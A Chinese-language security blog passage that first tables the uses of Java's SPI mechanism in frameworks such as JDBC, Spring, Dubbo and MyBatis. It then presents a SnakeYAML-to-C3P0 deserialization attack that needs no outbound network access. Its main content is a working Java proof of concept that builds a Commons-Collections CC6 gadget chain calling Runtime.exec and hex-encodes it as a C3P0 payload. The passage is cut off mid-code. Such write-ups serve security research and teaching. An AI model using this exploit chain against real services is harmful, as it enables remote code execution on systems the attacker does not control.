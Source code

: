 注意需要jdk版本相同



### 其他使用SPI的场景

一些其他使用SPI的场景，简单看看

| 应用名称           | 具体应用场景                                                 |
| ------------------ | ------------------------------------------------------------ |
| 数据库驱动程序加载 | `JDBC`为了实现`可插拔`的数据库驱动，在Java.sql.Driver接口中定义了一组标准的API规范，而具体的数据库厂商则需要实现这个接口，以提供自己的数据库驱动程序。在Java中，JDBC驱动程序的加载就是通过SPI机制实现的。 |
| 日志框架的实现     | 流行的`开源日志框架`，如`Log4j、SLF4J和Logback`等，都采用了SPI机制。用户可以根据自己的需求选择合适的日志实现，而不需要修改代码。 |
| Spring框架         | `Spring框架`中的Bean加载机制就使用了SPI思想，通过读取classpath下的META-INF/spring.factories文件来`加载各种自定义的Bean`。 |
| Dubbo框架          | `Dubbo框架`也使用了SPI思想，通过接口`注解@SPI`声明扩展点接口，并在classpath下的META-INF/dubbo目录中提供实现类的配置文件，来实现扩展点的动态加载。 |
| MyBatis框架        | `MyBatis框架`中的插件机制也使用了SPI思想，通过在classpath下的META-INF/services目录中存放插件接口的实现类路径，来实现`插件的加载和执行`。 |
| Netty框架          | `Netty框架`也使用了SPI机制，让用户可以根据自己的需求选择合适的`网络协议实现方式`。 |
| Hadoop框架         | `Hadoop框架`中的输入输出格式也使用了SPI思想，通过在classpath下的META-INF/services目录中存放输入输出格式接口的实现类路径，来实现`输入输出格式的灵活配置和切换`。 |



## 不出网C3P0

不出网的情况能打C3P0，需要C3P0依赖

利用的是C3P0ImplUtils.parseUserridesAsString加载字节码，之前在分析C3P0+jackson联合打不出网时分析过了，移步：

https://godownio.github.io/2024/10/26/c3p0-lian/#SerializableUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%97%E8%8A%82%E7%A0%81

换成Yaml.load触发setter（setUserOverridesAsString）

SnakeYaml 打C3P0 CC6 POC：

```java
public class C3P0ImplUtils_HEX_CC6 {
    public static String GenerateCC6() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        return binaryFileToHexString(new File("cc6.ser"));
    }

    public static void serialize(Object obj) throws Exception {
```